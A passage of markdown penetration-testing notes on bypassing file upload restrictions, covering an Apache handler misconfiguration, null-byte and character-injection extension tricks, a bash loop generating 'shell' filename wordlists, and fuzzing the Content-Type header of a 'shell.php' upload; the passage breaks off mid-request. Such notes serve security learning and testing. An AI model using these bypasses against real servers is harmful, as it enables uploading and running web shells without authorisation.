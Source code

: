 		- In some cases, file upload functionality may not be vulnerable, but the server configuration may lead to a vulnerability.
		- For example, the `/etc/apache2/mods-enabled/php7.4.conf` for the `Apache2`
			``` xml
			<FilesMatch ".+\.ph(ar|p|tml)">
				SetHandler application/x-httpd-php
			</FilesMatch>
			```
			- The above configuration is how the web server determines which files to allow PHP code execution.
			- (`shell.php.jpg`) should pass the earlier whitelist test as it ends with (`.jpg`), and it would be able to execute PHP code due to the above misconfiguration, as it contains (`.php`) in its name.
	- `Character Injection`
		- Inject characters before or after the final extension to cause the application to misinterpret the filename and execute the uploaded file as a PHP script. ex:
			- `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`, `:`
			- Bash script that generates all permutations of the file name:
				``` bash
				for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
				    for ext in $(cat phpExtensions.txt); do
				        echo "shell$char$ext.jpg" >> wordlist.txt
				        echo "shell$ext$char.jpg" >> wordlist.txt
				        echo "shell.jpg$char$ext" >> wordlist.txt
				        echo "shell.jpg$ext$char" >> wordlist.txt
				    done
				done
				```
## Type Filters
We may utilize some allowed extensions (e.g., SVG) to perform other attacks.
> [!NOTE]
> A file upload HTTP request has two Content-Type headers:
> - One for the attached file (at the bottom), Which we usually need to modify.
> - One for the full request (at the top), Which in some cases the request will only contain (e.g. uploaded content sent as `POST` data), then we will need to modify it.
- Two common methods for validating the file content: `Content-Type Header` or `File Content`.
	- `Content-Type`
		- Example of how a PHP web application tests the `Content-Type` header to validate the file type
			``` PHP
			$type = $_FILES['uploadFile']['type'];
			if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) { echo "Only images are allowed"; die(); }
			```
		- Fuzz Content-Type header with SecLists' [Content-Type Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt).
			``` bash
			$ cat content-type.txt | grep 'image/' > image-content-types.txt
			$ cat request.txt
			
			POST /upload.php HTTP/1.1
			Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywRdo2lC1tHQrJPoV
			
			------WebKitFormBoundarywRdo2lC1tHQrJPoV
			Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
			Content-Type: FUZZ
			